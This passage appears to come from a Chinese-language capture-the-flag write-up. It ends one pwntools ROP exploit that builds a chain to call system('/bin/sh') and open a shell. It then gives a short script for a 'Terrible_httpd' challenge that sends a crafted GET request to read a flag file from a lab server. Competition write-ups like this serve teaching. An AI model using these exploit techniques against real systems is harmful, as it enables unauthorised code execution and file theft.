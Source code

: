 ```python
create(123)
create(123)

create(popret & 0xffffffff)
create(popret >> 32)
create(binsh_addr & 0xffffffff)
create(binsh_addr >> 32)
create(system_addr & 0xffffffff)
create(system_addr >> 32)

io.interactive()
```

#### Terrible_httpd

这题主要是读懂就行了。

简略的一个网页服务器程序，只要读取到flag文件就行了。

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

io = remote("172.21.4.12", 10104)

io.sendline("GET ./flag \n")
print(io.recvall())

```



